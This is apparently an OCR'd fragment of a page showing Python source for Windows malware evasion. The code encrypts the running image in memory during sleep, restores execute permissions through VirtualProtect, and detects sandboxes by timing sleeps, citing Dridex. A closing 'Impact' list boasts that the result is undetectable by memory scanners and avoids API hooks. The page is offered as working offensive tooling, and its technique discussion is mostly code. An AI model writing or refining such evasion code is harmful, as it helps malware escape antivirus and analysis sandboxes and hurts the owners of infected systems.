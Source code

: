 ```python
            image_bytes[i] ^= self.sleep_key[i % 32]
        
        # Restore PAGE_EXECUTE_READ
        old_protect = wintypes.DWORD()
        self.kernel32.VirtualProtect(
            self.image_base,
            self.image_size,
            0x20,  # PAGE_EXECUTE_READ
            ctypes.byref(old_protect)
        )
    
    def timing_verified_sleep(self, seconds: int):
        """
        Sleep that verifies actual time passed (anti-sandbox)
        
        Research:
        - "Detecting Sandboxes" by Joe Security (2019)
        - Evasion technique used by Dridex (2020)
        """
        import ctypes
        
        # Get high-resolution performance counter
        freq = ctypes.c_longlong()
        start = ctypes.c_longlong()
        
        self.kernel32.QueryPerformanceFrequency(ctypes.byref(freq))
        self.kernel32.QueryPerformanceCounter(ctypes.byref(start))
        
        # Sleep
        time.sleep(seconds)
        
        # Verify time actually passed
        end = ctypes.c_longlong()
        self.kernel32.QueryPerformanceCounter(ctypes.byref(end))
        
        actual_seconds = (end.value - start.value) / freq.value
        
        # If time was skipped (sandbox), detect it
        if actual_seconds < seconds * 0.9:
            # Sandbox detected - apply evasion
            self._sandbox_detected_response()
            return False
        
        return True
```

**Impact:** 
- ✅ **Undetectable** by memory scanners (image encrypted)
- ✅ **Sandbox detection** (verifies time passed)
- ✅ **No API hooks** (custom implementation)

---